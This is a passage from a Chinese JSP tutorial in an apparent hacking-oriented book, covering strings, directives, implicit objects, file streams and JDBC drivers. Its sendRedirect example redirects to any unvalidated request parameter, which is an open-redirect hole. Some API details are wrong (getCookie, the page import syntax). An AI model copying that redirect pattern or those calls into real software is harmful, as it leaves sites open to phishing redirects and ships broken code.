char charstemp[] = {'a','b','c','d','e'};
String s = new String(charstemp, 1, 2);
```

- 2. 求字符串长度

求字符串长度用 String 类的方法 length()，如下语句可求出字符串 s 的长度：length() 方法返回的是整型数值。

```java
int slength = s.length();
```

- 3. 字符串连接

字符串连接使用“+”号即可，返回连接后的字符串。当和其他数据类型连接时，返回数据类型仍然是字符串，如下代码。此句在浏览器中输出的是一个字符串“输出一个布尔值：true”。

```java
out.println("输出一个布尔值：" + true);
```

- 4. 查找字符串

要在字符串中查找指定的字符或子字符串，可以使用 String 类的两个方法，它们是：

- indexOf()——查找字符或子字符串在字符串中首次出现的位置。
- lastIndexOf()——查找字符或子字符串在字符串中最后一次出现的位置。

如果查找成功，方法返回字符或子字符串在字符串中出现位置的下标；如果失败则返回 -1。

- 5. 修改字符串

用来修改字符串的方法有多个，包括截取子字符串的方法 substring()、连接两个字符串的方法 concat()、替换字符方法 replace()、去除空格方法 trim()。substring() 方法可以截取子字符串，使用语法格式有两种。

```java
String substring(int startIndex)
String substring(int startIndex , int endIndex)
```

上述两种方法中，参数 startIndex 指定了子字符串开始下标，参数 endIndex 指定了子字符串结束下标。第一种形式返回字符串从下标 startIndex 开始直至末尾的子字符串；第二种形式返回从下标 startIndex 开始到下标 endIndex 结束的子字符串。

concat() 方法可以用来连接两个字符串，并创建一个新的 String 类对象，它是连接后的字符串，其使用方法如下。

```java
String concat(String str)
```

replace() 方法用一个字符代替本字符串中某一个特定字符在字符串中出现的所有位置，其用法如下所示：

```java
String replace(char originalchar , char replacechar)
```

用字符 replacechar 代替字符 originalchar，返回替换后的字符串。这个方法在前面已经多次使用了。最后一个 trim() 方法的作用是去掉字符串左右的空格，相信大家对它已经非常熟悉了。

##### （2）StringBuffer 类

String 类表示的是固定长度的字符串，而 StringBuffer 类提供了可变长的字符串，同时还提供了大量的字符串功能。在 StringBuffer 类的字符串中可以再插入字符、追加字符，StringBuffer 会自动增加内存空间，这些都是 String 无法做到的。

- 1. 追加字符或字符串
- 2. 插入字符
- 3. 删除字符和字符串

在 StringBuffer 尾部追加字符或字符串可使用方法 append()，调用的方法有多种，统一表述如下所示：

```java
StringBuffer append(Object obj)
```

参数 obj 可以是任意类型，比较常用的是一些简单数据类型以及 String 类。

用 insert() 方法可将一个字符串插入到另一个字符串中。使用的方法有多种，常用的方法形式如下：

```java
StringBuffer insert(int insertindex , char ch)
StringBuffer insert(int insertindex , String str)
```

第一种形式用来在 insertindex 处插入一个字符 ch；第二种形式用来在 insertindex 处插入一个字符串 str。

删除字符和字符串的方法有两种，它们调用的语法格式如下：

```java
StringBuffer delete(int startposition , int endposition)
StringBuffer deleteCharAt(int deleteposition)
```

第一个方法 delete() 用于删除从 startposition 下标开始到 endposition 下标结束的字符串，返回删除后的 StringBuffer 对象；第二个方法 deleteCharAt() 用于删除位于 deleteposition 下标处的字符，两个方法均返回删除后的 StringBuffer 对象。

### 12.2.2 Java程序片

在 JSP 中，在“<%”和“%>”之间书写的程序代码我们称为 Java 程序片。一个 JSP 页面中可以有多个 Java 程序片。要注意的是 Java 程序片声明的变量，在它们所在 JSP 页面的所有程序片及表达式中都有效。

在程序片中声明的变量只在页面有效，是局部变量。它在不同客户访问同一个页面时，此变量是不能共享的。但如果是在“<%!”和“%>”之间声明的变量，就可以在同步的客户之间共享，有效范围是整个 JSP 页面，生命周期是在服务器关闭后变量才会被释放。

用“<%=”和“%>”可以直接输出变量或表达式的值，变量或表达式的值将作为一个字符串在浏览器中输出。这种输出在 JSP 中比较常见，所以大家一定要记住，不然到时候看代码就有点困难哦！

这里我给大家举个例子，示例 12-1 为大家演示了一个网站计数器功能的例子，代码如下所示：

```jsp
<%@ page contentType="text/html;charset=gb2312"%>
<html>
<body>
<%!int counter=0;
synchronized void counterFunction()
{
    counter++;
}
%>
<%counterFunction();%>
网站计数器<br>
您是第<%=counter%>位访问者
</body>
</html>


```

程序首先在“<%!”和“%>”之间声明了一个计数器变量和计数方法，计数器变量将在客户之间共享，直至服务器关闭。计数方法实际上就是对计数变量加 1 处理，在方法前面加了 synchronized 关键字。这个关键字可防止客户同时调用此方法、更改计数变量值时发生冲突，对方法做了串行化处理。一个简单的计数器程序运行结果如图 12-4 所示。每刷新一次页面，数值会增加 1，也可以同时打开多个浏览器窗口对此页进行测试，可发现变量是共享的。
图 12-4 计数器运行的结果

### 12.2.3 JSP指令

在 JSP 中，提供了很多指令。有了这些指令我们可以很方便地完成一些复杂和特殊的功能。本节就给大家详细讲授常用且与黑客技术紧密相关的指令。

- 1. page 指令

要定义 JSP 页面的全局属性及其值时使用 page 指令，一般把它放在页面首部。如：有了这句之后，在 JSP 页面中就可以显示中文汉字了。指令中的属性值可用单引号或双引号括起来，如果一个属性有多个值就用逗号隔开。在 page 指令中也只有 import 属性可以指定多个值，它用来导入一些程序中要用的包或类。如：对于 page 指令最为常用的就是上面两种了，在这里我也就提这些了。其实 page 指令还是挺复杂的，如果要进行 JSP 开发，就应该对它有比较深的了解，这个时候你可以参考光盘中自带的电子书，上面对这方面有比较全面的解释。

```jsp
<%@ page contentType="text/html;charset=gb2312"%>
<%@ page import="java.util.*","java.awt.*"%>
```

- 2. include 指令

include 指令用来在该指令所在位置静态插入一个文件。它只是把文件代码包含过来，与文本组合形成一个大的程序文件。和我们前面讲的 include 是一样的功能。在 JSP 中它的调用格式为：`<%@ include file="文件路径"%>`。示例 12-2 演示了 include 指令的使用过程，这个例子的代码如下所示：

```html
Bottom.txt 文件的代码为：
<hr>
<p align="center">
<font size="3">黑客手册版权所有</font><br>
<font size="3">制作人：曾云好</font><br>
<font size="3">联系方式：zengyunhao@gmail.com</font><br>
</body>
</html>

Include.jsp 文件的代码如下所示：
<%@ page contentType="text/html;charset=gb2312"%>
<p align="center">
<%out.println("《精通脚本黑客》");%>
<%out.println("此书出版了，快来看看吧！非安全还有好书等待您哦！");%>
</p>
<%@ include file="Bottom.txt"%>


```

在本例中，将 Bottom.txt 和 Include.jsp 放在同一个目录下，所以在 include 处直接使用文件名即可。在 Include.jsp 文件中，第 1 句 page 指令一定要放在主文件中，否则可能会出现部分文件中的中文字符显示为乱码；包含文件 Bottom.txt 放在末尾，在利用 include 指令之后就相当于把 Bottom.txt 中的代码直接插入到 Include.jsp 文件中去了。代码运行之后的结果如图 12-5 所示。
图 12-5 include 指令使用的结果

### 12.2.4 JSP动作指令

与 JSP 指令不同，JSP 动作指令将影响 JSP 运行时的功能，对 JSP 程序有很大的影响。在这一节中大家一起来认真学习吧。

- 1. include 动作指令

include 动作指令用来在 JSP 页面中动态包含一个文件，这样包含的页面程序与被包含页面的程序彼此独立，互不影响。JSP 的 include 动作指令可包含一个动态文件，也可以包含一个静态文件。如果包含的是一个静态文件（如文本文件），就直接输出给客户端，由客户端浏览器负责显示；如果包含的是一个动态文件，则由服务器的 JSP 引擎负责执行，把运行结果返回给客户端显示出来。需要注意的是：include 动作指令与 include 指令不同，后者是静态包含，即包含文件与被包含文件组合形成一个文件；而前者是动态包含，原理不同，使用时也会有差别。

include 动作指令的使用格式如下：

```jsp
<jsp:include page="文件路径"/>
或者
<jsp:include page="文件路径">
  <jsp:param name="参数名1" value="参数值1"/>
  ......
  <jsp:param name="参数名n" value="参数值n"/>
</jsp:include>
```

不需要传递参数时，这两种使用形式效果是一样的；如果要传递参数就要使用第二种形式了。

- 2. useBean 动作指令

这是一个非常重要的动作指令，用来在 JSP 中创建并使用一个 JavaBean（对于 JavaBean 在后面会详细给大家介绍，在实际工程中常用 JavaBean 做组件开发）。在 JSP 中声明一个 JavaBean 的语法格式如下所示：

```jsp
<jsp:useBean id="bean的名称" scope="有效范围" class="包名.类名">
</jsp:useBean>
```

其中，id 参数是在 JSP 中给这个 bean 组件的名字，只要在它的有效范围内，均可使用这个名称来调用它；scope 为 bean 的有效范围，它的取值有四种：page、request、session、application。默认情况下取值为 page，值为 page 表示在当前 JSP 页面及当前页面所包含的静态文件中有效，值为 request 表示有效范围仅在 request 期间；值为 session 表示在与……每个客户会话期间有效；值为 application 表示所有客户端共享这个 bean，直至服务器关闭才取消这个 bean；class 参数中，如果类属于某个包则类名前面要加上包名，中间用“.”引用，否则直接用类名即可。

##### （3）setProperty 动作指令

这个动作指令用来设置 Bean 中的属性的值，基本语法格式有如下四种：

```jsp
<jsp:setProperty name="bean 的名称" property="*"/>
<jsp:setProperty name="bean 的名称" property="属性名称"/>
<jsp:setProperty name="bean 的名称" property="属性名称" param="参数名称"/>
<jsp:setProperty name="bean 的名称" property="属性名称" value="属性值"/>
```

- 1. 第一种语法格式中 property="*"，应用这种格式要求 bean 属性的名称与类型要和 request 对象中参数的名称与类型一致，用此 bean 中的属性来接收客户输入的数据，系统会根据名称来自动匹配。如果类型不一致，会根据 bean 中的类型进行转换。
- 2. 第二种语法格式则只设置其中匹配的一个 bean 的属性。
- 3. 第三种语法格式根据指定的 request 对象中的参数与属性匹配。
- 4. 第四种语法格式用来给 bean 的属性赋值，属性值的数据类型要与属性的数据类型一致，否则会出错。

setProperty 动作指令可以在 useBean 动作指令中使用，也可以在声明了 useBean 后使用，但不能在声明之前使用。与 useBean 动作指令结合使用的格式如下：

```jsp
<jsp:useBean id="bean 的名称" scope="有效范围" class="包名.类名">
    <jsp:setProperty name="bean 的名称" property="属性名称" value="属性值"/>
    ..........
    <jsp:setProperty name="bean 的名称" property="属性名称" value="属性值"/>
</jsp:useBean>
```

##### （4）getProperty 动作指令

getProperty 动作指令用来获得 bean 的属性并将其转换成字符串，再向 JSP 页面中输出。使用的语法格式如下：

```jsp
<jsp:getProperty name="bean 名称" property="属性名称"/>
或者
<jsp:getProperty name="bean 名称" property="属性名称">
</jsp:getProperty>
```

### 12.3 内置对象

JSP 中的内置对象和我们前面在 ASP 中所学的对象是一样的，在 JSP 中内置对象有：request、response、session、application、out、config、pageContext。其中 request、response、session、application 在 ASP 中我们已经学过了，在 JSP 中它们的功能也是和 ASP 一样的，所以对于这几个对象我就重点给大家讲解它们的方法。

#### 12.3.1 request 对象常用方法

request 对象封装了客户端提交的数据信息，包括用户提交的信息以及客户端的一些信息。客户端可通过 HTML 表单或者在网页地址后面带参数的方法提交数据，再用 request 对象的相关方法来获得提交的各种数据，对于 request 对象的更多基础知识如果还有不懂的地方可以参考第 6 章的 6.2.1 小节。

request 的方法主要用来处理客户端浏览器提交的请求中的各项参数和选项。常用的方法如下：

- 1. **getCookie()**  
  此方法用来获得客户端的 cookie 对象，返回值为一个 cookie 数组，调用的语法格式如下：`request.getCookie()`
- 2. **getMethod()**  
  这个方法用来获得 request() 的方法，如 get 或 post 等，调用的语法格式为：`request.getMethod()`
- 3. **getParameter()**  
  这个方法用来获得指定名称的客户端提交的参数的值，调用的语法格式如下所示：`request.getParameter(String str)`。参数 str 是指定的参数的名称。这个方法是 JSP 程序中最为常用的方法之一，正是有了它，JSP 才能够获得客户端浏览器提交的数据。
- 4. **getParameterValues()**  
  此方法获得指定的客户端提交的参数的值，调用的语法如下：`request.getParameterValues(String str)`
- 5. **getRequestURL()**  
  此方法用来获得发送请求字符串的客户端的地址。调用的语法格式如下：`request.getRequestURL()`
- 6. **getRemoteHost()**  
  这个方法用于得到客户端的机器名称，如果得不到名称则得到客户端的 IP 地址，调用格式为：`request.getRemoteHost()`
- 7. **getRemoteAddr()**  
  此方法用于得到客户端的 IP 地址，调用格式为：`request.getRemoteAddr()`
- 8. **getServletPath()**  
  这个方法返回客户端请求的页面的文件目录，调用格式为：`request.getServletPath()`
- 9. **getServerName()**  
  这个方法用于得到服务器机器的名称，调用方法为：`request.getServerName()`

上面的就是 request 对象最为常用的方法，下面就是我利用上面的方法写的一个小程序，算是对上面的方法的一个运用吧，代码如下所示：

```jsp
<%@ page contentType="text/html;charset=gb2312"%>
<html>
<head>
</head>
<body>
请求信息如下:<br>
请求的方法是:<%=request.getMethod()%>
<br>
请求的 URI 是:<%=request.getRequestURI()%>
<br>
接受客户端提交信息的页面路径是:<%=request.getServletPath()%>
<br>
服务器名称是:<%=request.getServerName()%>
<br>
客户端 IP 地址是:<%=request.getRemoteAddr()%>
<br>
客户端机器的名称是:<%=request.getRemoteHost()%>
</body>
</html>


```

程序代码用了 request 的各种方法，输出 request 中的各种信息。运行结果中得到客户端的 IP 地址是 127.0.0.1，这里因为是在我本地的电脑上调试的，127.0.0.1 代表本地机器，故得到了此 IP 地址，其程序代码运行的结果如图 12-6 所示。
图 12-6 利用 request 的方法得到的各种信息

#### 12.3.2 response 对象常用方法

与 request 对象对应的是 response 对象，response 对象可以用来对客户端的请求做出响应，向客户端发送数据。输出的数据可以是各种数据类型，甚至是文件，这可以通过 page 指令的 contentType 属性或 response 的 setContentType() 方法来设置。对于 response 对象的更多基础知识如果还有不懂的地方可以参考第 6 章的 6.2.2 小节。

response 对象的常用方法如下所示：

- 1. `addCookie()`

这个方法用来添加一个 cookie 对象，以保存客户端的用户信息，cookie 对象的值只能是字符串，调用的语法格式如下：

```java
response.addCookie(Cookie cookname)
```

参数 cookname 是一个 Cookie 对象的名称。如果对 Cookie 的基础知识还不太熟悉的话，可以再次参考第 4 章的 4.5 节。

- 2. `sendRedirect()`

这个方法用于对页面进行重定向，调用的语法格式为：

```java
response.sendRedirect(String url)
```

url 这个参数可以是合法的 URL 地址，也可以是文件路径。

- 3. `setHeader()`

这个方法用于设置指定的 HTTP 头信息的值，如果同名的头信息已经存在则会被覆盖。调用的语法格式为：

```java
response.setHeader(String headername, String headervalue)
```

方法中的 headername 是头信息的名称，headervalue 是对应的头信息的值。

下面举个例子来说明一下上面的方法的运用，这里我就用 sendRedirect() 来具体说明，程序的代码如下：

```jsp
<%@ page contentType="text/html;charset=gb2312"%>
<html>
<body>
<%
// 页面重定向程序片
String url;
url=request.getParameter("goaddress");
if(url!=null)
{
    response.sendRedirect(url);
}
%>
<form name="form1" action="sendRedirectExample1.jsp" method="post">
页面重定向：
<select name="goaddress" onchange="javascript:form1.submit()">
    <option value="">=======请选择=======</option>
    <option value="http://www.nohack.cn">黑客手册官方网站</option>
    <option value="http://www.eviloctal.com">邪恶八进制</option>
    <option value="http://www.pediy.com">看雪</option>
    <option value="http://www.xfocus.net">安全焦点</option>
</select>
</form>
</body>
</html>


```

在程序中，声明一个表单，把数据提交给本页，当改变下拉选择框的选项时会提交表单；在程序片中，接收到提交的表单中的转向地址后，用 response 对象的 sendRedirect() 方法进行页面的重定向；在程序片中要判断接收到的参数是否为空，因为数据是提交给本页面的，当表单数据没有提交时，得到相应数据项的数据会为空，这个时候并不发生页面的重定向。上面的程序的运行结果如图 12-7 所示。
图 12-7 页面重定向

#### 12.3.4 session 对象常用方法

Session 对象用来保存一些需要在与每个用户会话期间保持的数据信息。这样就方便会话处理工作。如可以用 session 变量记住用户的用户名，就不必在其他的网页中重复输入了。Session 对象的信息保存在服务器中，但 ID 保存在客户机的 cookie 中，如果客户机不支持 cookie 则转为 URL 重写。

下面我们来看看 session 对象的一些常用的方法：

- 1. `getAttribute()`  
  这个方法可以获得指定的 session 对象，调用方式为：参数 name 是指定的 session 对象的名称。方法返回一个 Object 对象，任何对象都可以加入到 session 中。

```java
session.getAttribute(String name)
```

- 2. `getCreationTime()`  
  此方法得到 session 对象的创建时间，该方法的调用格式为：此方法返回的是一个 long 类型的值，单位为毫秒，是从 1970 年 1 月 1 日午夜起至 session 对象创建为止所隔离的毫秒数。

```java
session.getCreationTime()
```

- 3. `getId()`  
  这个方法用于得到 session 对象的 ID 号，调用语法如下：每个客户端与服务器会话的 ID 号不一样，服务器通过这个 ID 号来区分不同的用户。

```java
session.getId()
```

- 4. `getMaxInactiveInterval()`  
  这个方法是用于获得 session 对象的生存时间，返回值是一个 int 型值，单位为秒，调用的语法如下：

```java
session.getMaxInactiveInterval()
```

- 5. `setAttribute()`  
  这个方法用来设置指定 session 对象中的数据对象的值，调用语法为：

```java
session.setAttribute(String name,Object value)
```

#### 12.3.5 application 对象常用方法

Application 对象用来在多个程序或者是多个用户之间共享数据，用户使用的所有 application 对象都是一样的，这与 session 对象不同。服务器一旦启动，就会自动创建 application 对象，并一直保持下去，直至服务器关闭，application 就会自动消失。

还是一样，我们来学习 application 对象的一些方法。

- 1. `getAttribute()`  
  这个方法得到指定的 application 对象中的数据对象的值，调用格式为：

```java
application.getAttribute()
```

- 2. `getInitParameter()`  
  此方法返回指定的 application 对象中的数据对象的初始值。调用语法格式为：

- 3. `getServletInfo()`  
  用于得到 servlet 编译器当前版本的信息，调用方式为：`application.getServletInfo()`

- 4. `setAttribute()`  
  这个方法用于设置指定名字 name 的 application 对象的属性值 object。调用的语法如下：`application.setAttribute(String name,Object object)`

第一个参数 name 是指定 application 对象中的数据对象的名称，第二个参数 object 是这个对象对应的值，其类型为 Object，说明可以是任意类型。如果对象不存在，则添加，如果已存在则覆盖。

#### 12.3.6 out 对象简介

- out 对象用来向客户端输出数据，在前面已经使用了它了。最为常用的方法就是 `print()` 及 `println()` 方法。下面就来具体看看它常用的方法。

- 1. `clear()`  
  这个方法是清除缓冲区中的数据，并不输出，使用很简单：`out.clear()`
- 2. `clearBuffer()`  
  这个方法也是清除缓冲区中的数据，但是它还把缓冲区中的数据输出到客户端，调用格式为：`out.clearBuffer()`
- 3. `close()`  
  这方法用来关闭输出流，因为 out 对象本身实际上是一个输出流。调用方式为：`out.close()`
- 4. `flush()`  
  此方法是输出缓冲区中的数据内容，调用语法如下：`out.flush()`
- 5. `getBufferSize()`  
  用于得到缓冲区的大小，调用格式为：`out.getBufferSize()`
- 6. `print()` 与 `println()`  
  `print()` 与 `println()` 方法应用得最为广泛，它们的作用都是向客户端输出数据，它们二者的差别是 `println()` 方法在输出数据的同时还会输出一个换行符号。下面给大家举个例子来说明，代码如下所示：

```jsp
<%@ page contentType="text/html;charset=GB2312" %>
<HTML>
<head>
<title>out 应用示例</title>
</head>
<BODY>
<%
out.print("<table border='1' width='100%'><tr><td width='100%' colspan='4'>");
out.print("《精通脚本黑客》参与人员（用 out 输出表格）"+"</tr>");
out.print("<tr><td width='25%'>"+"姓名"+"</td>");
out.print("<td width='15%'>"+"年龄"+"</td>");
out.print("<td width='15%'>"+"性别"+"</td>");
out.print("<td width='45%'>"+"工作单位"+"</td></tr>");
out.print("<tr><td width='25%'>"+"曾云好"+"</td>");
out.print("<td width='15%'>"+"20"+"</td>");
out.print("<td width='15%'>"+"男"+"</td>");
out.print("<td width='45%'>"+"湖南省长沙市"+"</td></tr>");
out.print("<tr><td width='25%'>"+"土豆"+"</td>");
out.print("<td width='15%'>"+"33"+"</td>");
out.print("<td width='15%'>"+"男"+"</td>");
out.print("<td width='45%'>"+"黑客手册"+"</td></tr>");
out.print("</table>");
%>
</BODY>
</HTML>


```

程序利用 out 对象的 print() 方法输出一系列的表格元素。在实际应用中，不仅是表格元素，任意 HTML 元素都可以利用 out 对象输出。上面的代码的运行结果如图 12-8 所示。
图 12-8 利用 out 对象的 print() 方法输出表格信息

JSP 中还有一些其他的内置对象，如 page、config 等。page 对象仅用来保存脚本语言不是 Java 时的时间；config 对象实质上是 ServletConfig 类的一个对象，用来配置处理 JSP 页面的句柄。这些对象很少用到，和我们的安全也不是联系得很紧密，所以这里对它们两个就稍微提一下，如果要进行 JSP 开发的话可以去学一下，光盘中已经为大家准备了很好的 JSP 电子书籍，以供大家系统性地学习 JSP 系统开发。

### 12.4 文件操作

在进行 JSP 开发中，会频繁地使用文件操作，利用它可以实现很多功能。所以同时这也是常常出现安全问题的地方，利用它们的漏洞我们可以成功地进行入侵活动。下面就开始我们文件操作的学习吧，打起精神，跟上进度哦！

#### 12.4.1 文件类

在 Java 的 IO（输入输出）类中大多数是流式的，但是文件类（File 类）不是。File 类并没有指定信息怎样从文件读取或向文件存储，而是描述了文件本身的属性，如文件的权限、时间、日期、目录路径、目录层次结构等，目录也被当成是一个 File。File 类的构造函数有三种形式：

```java
File(String path)
File(String path, String filename)
File(File dirObj, String filename)
```

第一种与第二种形式中的参数 `path` 是文件的路径名；参数 `filename` 是文件名；`dirObj` 是一个指定目录的 File 对象。如：

```java
File file1 = new File("/");
File file2 = new File("/", "newfile2.txt");
File file3 = new File(file1, "newfile2.txt");
```

第一句话生成一个 `file1` 对象，指向参数所示的路径；第二句话有两个参数：路径和文件；第三句话的第一个参数为 `file1` 对象，第二个参数为指向的文件，所以实际上 `file2` 与 `file3` 是指向同一个文件。

File 类定义了很多获取 file 对象标准属性的方法，下面我们来学习一些比较重要的方法。

- **canRead()**  
  这个方法用来判断文件是否可读，可读返回 `true`，否则返回 `false`。调用语法如下：  
  `fileObjectName.canRead()`

- **canWrite()**  
  这个方法用来判断文件是否可写，可写返回 `true`，否则返回 `false`。调用语法如下：  
  `fileObjectName.canWrite()`

- **exists()**  
  此方法用于判断文件是否存在，存在返回 `true`，否则返回 `false`。调用语法如下：  
  `fileObjectName.exists()`

- **getAbsolutePath()**  
  该方法用于返回文件的绝对路径，是一个字符串类型，语法如下：  
  `fileObjectName.getAbsolutePath()`

- **getName()**  
  该方法用于得到文件的名称，语法为：  
  `fileObjectName.getName()`

- **getParent()**  
  用于得到文件的父目录的名称，调用语法如下：  
  `fileObjectName.getParent()`

- **lastModified()**  
  此方法得到文件最后一次修改的时间。函数的返回值是一个长整型数值，是从 1970 年午夜至文件最后一次修改时间为止相隔的毫秒数，调用语法如下：  
  `fileObjectName.lastModified()`

- **renameTo()**  
  重命名文件，调用格式为：  
  `fileObjectName.renameTo(File newObjectName)`  
  这个方法把所调用的 File 对象更改为由 `newObjectName` 指定的文件名。如果成功则返回 `true`，如果试图对文件从一个目录转到另一个目录，或者使用了一条已经存在的文件名则返回 `false`，表示不成功。

不过需要注意的是，如果要用到上面的方法，必须在文件头部引用 `java.io` 包，因为文件操作的相关类均放在这个包中，即 `<%@ page import="java.io.*" %>`。

用 File 类不仅可以操作文件，还可以操作目录。下面就来简单介绍一下如何操作目录。

要创建一个新目录的方法是 `mkdir()`，创建成功返回 `true`，失败返回 `false`。如果所要创建的目录已存在也是返回 `false`。调用格式为：

```java
fileObjectName.mkdir()
```

下面的代码就是在 `D:/` 下创建一个新的目录 `hack`：

```java
<%
File file1 = new File("D:/", "hack");
file1.mkdir();
%>
```

如果要创建一个路径不存在的目录则使用 `mkdirs()` 方法。

使用 File 类对象的 `list()` 方法可以提取该目录内部其他文件和目录的列表。这个方法有两种调用形式，调用格式为：

```java
fileObjectName.list()
fileObjectName.listFiles()
```

第一种形式返回的是此目录下全部文件的文件列表，即一个字符串数组；第二种形式返回一个文件类型数组，是目录下的所有文件。

调用 `delete()` 方法可立即删除指定文件或文件目录，成功则返回 `true`，否则返回 `false`。

#### 12.4.2 字节流

在 Java 中主要有四个输入/输出的抽象类：InputStream、OutputStream、Reader 及 Writer。InputStream 和 OutputStream 为字节流设计；Reader 和 Writer 为字符流设计。一般处理字符或字符串时应使用字符流类，处理字节或二进制对象时应用字节流类。

##### （1）字节输入流

字节输入流都是 InputStream 类的子类，它是一个定义了 Java 流式字节输入模式的抽象类。我们在进行文件操作时要使用到 FileInputStream 类，即文件输入类。

InputStream 类的常用方法有：

- `available()`  
  这个方法用于得到当前可读的输入字节数，调用语法为：

```java
InputStreamObjectName.available()
```

其中，`InputStreamObjectName` 是 InputStream 类被继承实现后的类对象名称。

- `close()`  
  此方法用于关闭输入源。输入源在使用了这个方法关闭后如果继续读取就会产生异常。调用语法如下：

```java
InputStreamObjectName.close()
```

- `read()`  
  这个方法用于读取数据，它有三种调用形式，如下所示：

```java
InputStreamObjectName.read()
InputStreamObjectName.read(byte buffername[])
InputStreamObjectName.read(byte buffername[], int offset, int len)
```

第一种形式读取单个字节的数据；第二种形式从输入源中读取 `buffername.length` 个字节到 `buffername` 中；第三种形式从输入源中读取 `len` 长度的字节数据，并把数据在 `buffername` 这个字节数组中从 `offset` 下标位置开始存放。

FileInputStream 类的所有方法均从 InputStream 类继承而来，可从文件读取字节。它的构造函数可生成 FileInputStream 类的对象，有两种形式：

```java
FileInputStream(String filepath)
FileInputStream(File fileObjectName)
```

第一种形式中的 `filePath` 参数是文件输入类对象所指向文件的路径，即输入源。第二种形式中的 `fileObjectName` 是文件类对象的名称，用这个文件类对象所指向的文件作为输入源。生成文件输入类对象后就可用上面的方法进行数据操作。如下代码，都是使用上面两种构造函数形式指向同一个输入流：

```java
FileInputStream file1 = new FileInputStream("D:/hack.txt");
File file2 = new File("D:/hack.txt");
FileInputStream inputfile = new FileInputStream(file2);

inputfile.read();   // 读取字节数据
```

上面的操作一次只允许对一个字节进行操作。在 Java 中，缓冲流把内存缓冲器连接到输入/输出流，这样就允许同时对多个字节进行操作。通过使用 BufferedInputStream 和 BufferedOutputStream 类可实现缓冲流。文件输入操作用 FileInputStream 类与 BufferedInputStream 类结合使用可大大提高性能。BufferedInputStream 类的构造函数有以下两种形式：

```java
BufferedInputStream(InputStream inputStreamName)
BufferedInputStream(InputStream inputStreamName, int bufferSize)
```

参数 `inputStreamName` 是输入流类的名称，`bufferSize` 是指定的缓冲区大小（字节）。

BufferedInputStream 类可以使用 InputStream 中的方法，如下代码可把缓冲流与输入流联系起来：

```java
File file1 = new File("D:/test.txt");
FileInputStream inputfile = new FileInputStream(file1);
BufferedInputStream buffer1 = new BufferedInputStream(inputfile);
```

##### （2）字节输出流

字节输出流都是 OutputStream 类的子类，它是一个定义了 Java 流式字节输出模式的抽象类。输出流的指向是数据输出的目的地，在 Java 程序中通过输出流来实现。OutputStream 类常用的方法如下：

- `close()`  
  该方法关闭输出流，如果关闭后还进行写操作会产生异常。调用格式为：  
  `OutputStreamObjectName.close()`

- `flush()`  
  这个方法用来刷新输出缓冲区，调用语法为：  
  `OutputStreamObjectName.flush()`

- `write()`  
  这个方法用于写数据，调用方式有三种：

```java
OutputStreamObjectName.write(int b)
OutputStreamObjectName.write(byte buffername[])
OutputStreamObjectName.write(byte buffername[], int offset, int len)
```

第一种形式向输出流写入单个字节，参数是一个整型；第二种形式向输出流写一个完整的字节数组；第三种形式把 `buffername` 字节数组中从 `offset` 位置开始、长度为 `len` 的字节写入。

FileOutputStream 类创建了一个可以向文件写入字节的 OutputStream，它的构造函数有以下三种形式：

```java
FileOutputStream(String filePath)
FileOutputStream(File fileObjectName)
FileOutputStream(String filePath, boolean append)
```

参数 `filePath` 是文件完整路径，参数 `fileObjectName` 是一个文件的 File 对象，`append` 是布尔类型数据，当其值为 `true` 表示追加。如下代码利用上面的构造函数构造一个输出流并使用它的方法：

```java
FileOutputStream fopt = new FileOutputStream("D:/fopt.txt");
fopt.write(3);
fopt.close();
```

BufferedOutputStream 类是用于输出缓冲的缓冲流类，OutputStream 类中的方法可以在其中使用。BufferedOutputStream 的构造函数和 BufferedInputStream 一样，只要把 BufferedInputStream 改成 BufferedOutputStream 即可。

#### 12.4.3 字符流

字节流已经为输入/输出处理提供了强大功能，不过在处理一些比如汉字的时候可能会出现乱码，因为一个汉字实际上占两个字节的存储空间。为此 Java 提供了字符流类，字符流类的顶层是 Reader 和 Writer 类。

##### （1）字符输入流

所有字符输入流类都是 Reader 类的子类。Reader 类常用的方法如下：

- `close()`
- `read()`

`close()` 方法作用是关闭输入源，调用语法如下：

```java
ReaderObjectName.close()
```

`ReaderObjectName` 是生成的 Reader 类对象名称。

`read()` 方法用来读取字符数据，它的用法和前面的字节输入流中的 `read()` 一样，只要把原来的 `InputStreamObjectName` 改成 `ReaderObjectName` 即可。

Reader 类还不能直接使用，必须继承它才能使用。FileReader 类可用于读取文件，继承自 Reader 类，它有两种构造函数形式：

```java
FileReader(String filePath)
FileReader(File fileObjectName)
```

参数 `filePath` 是文件完整路径；`fileObjectName` 是指向文件的文件类对象名称。

##### （2）字符输出流

字符输出流与字节输出流的方法用法是一样的，只要把 `OutputStreamObjectName` 改成 `WriterObjectName` 即可。`WriterObjectName` 是生成的 Writer 类对象名称。

FileWriter 类是一个用来写文件的 Writer 类，继承自 Writer 类。它的构造函数同样和字节输出流一样，只要把 FileOutputStream 改成 FileWriter。

### 12.5 JDBC 接口

通过第 5 章的学习，我想大家对 SQL 数据库还是比较熟悉了。而这一节就来给大家讲解一些 JSP 下特有的数据库方面知识。在 JSP 中主要使用 JDBC（Java Database Connectivity，Java 数据库连接）技术来连接数据库。

JDBC 与 ODBC（Open DataBase Connectivity，开放式数据库连接）的作用非常类似，它在应用程序和数据库之间起到桥梁作用，利用它们才能对数据库进行各种操作。因为 ODBC 比 JDBC 应用更广泛，所以为了解决有的数据库没有提供 JDBC 接口，SUN 公司开发了 JDBC–ODBC 桥，这样使得 JDBC 可以连接几乎所有数据库。

在 JSP 中如果要使用后台数据库，那么在 JSP 页面的最前面应该使用 `java.sql.*` 包，方法为 `<%@ page import="java.sql.*" %>`。这是因为关于数据库的各种操作函数都已经被包含在 `java.sql.*` 包中，只有引用它才可以对数据库进行各种操作。

#### （1）Driver

在第 5 章已经讲授了如何建立 ODBC 数据源。如果已经建立了一个数据源，那么就可以在 Java 程序中通过 JDBC–ODBC 接口连接数据库了。无论是用 JDBC–ODBC 还是 JDBC，都需要 Driver（驱动）。我们可以用 `Class.forName()` 方法来加载驱动程序。

如果使用的是 JDBC–ODBC 方法，则使用如下语句；如果使用的是 JDBC，则用以下形式。其中 `driver_class_name` 是驱动类名。比如下面的 SQL Server 和 MySQL 数据库：

```java
Class.forName("sun.jdbc.odbc.JdbcOdbcDriver");
Class.forName("jdbc.driver_class_name");
Class.forName("com.microsoft.jdbc.sqlserver.SQLServerDriver"); // SQL Server
Class.forName("org.gjt.mm.mysql.Driver");
```

#### （2）DriverManager

用 DriverManager 的 `getConnection()` 方法可以建立一个数据库连接对象，利用它就可以和后台数据库进行信息交互。一般形式如下：

```java
DriverManager.getConnection("驱动类型:数据源", "用户名", "密码")
